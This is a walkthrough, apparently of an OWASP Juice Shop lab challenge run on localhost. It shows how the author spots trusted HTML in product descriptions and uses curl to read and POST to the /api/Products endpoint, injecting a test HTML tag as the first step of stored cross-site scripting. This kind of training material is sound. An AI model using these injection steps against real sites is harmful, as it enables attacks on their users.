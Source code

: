 <details><summary>View full code</summary></details>

So, we can see that the HTML is trusted in the table description by `trustProductDescription`. This is a good place to attack.

Looking at the page `/#/order-history`, we search for `/api` in the `main.js` sources, and we can find that `/api/Products` is where all of the products come from.

I personally solved this using cURL, as shown below, but I also [saw people use Burp Suite](https://youtu.be/M0a5DIQhRVI), which looked pretty powerful. That's definitely something I need to practice more. John Hammond has a good [introduction to Burp Suite](https://youtu.be/G3hpAeoZ4ek) on YouTube. 

So, I first got the results of the endpoint:

```bash
$ curl -Ssl http://localhost:3000/api/Products | head 
{"status":"success","data":[{"id":1,"name":"Apple Juice (1000ml)","description":"The all-time classic.","price":1.99,"deluxePrice":0.99,"image":"apple_juice.jpg","createdAt":"2023-09-26T23:12:11.190Z","updatedAt":"2023-09-26T23:12:11.190Z","deletedAt":null}
...
```

ok, looks good. Can we post to it?

I assume the data will take the form:

```json
{
      "id": number,
      "name": string,
      "description": string,
      "price": number,
      "deluxePrice": number,
      "image": string,
      "createdAt": datestring,
      "updatedAt": datestring,
      "deletedAt": datestring?
}
```

So we get the command:

```bash
curl -XPOST -H "Content-type: application/json" -d '{
      "id": 123456,
      "name": "TEST <b>BOLD</b>",
      "description": "TEST <b>BOLD</b>",
      "price": 1,
      "deluxePrice": 2,
      "image": "TEST <b>BOLD</b>",
      "createdAt":"2023-09-26T23:12:11.190Z",
      "updatedAt":"2023-09-26T23:12:11.190Z",
      "deletedAt":null
}' 'http://localhost:3000/api/Products'
```
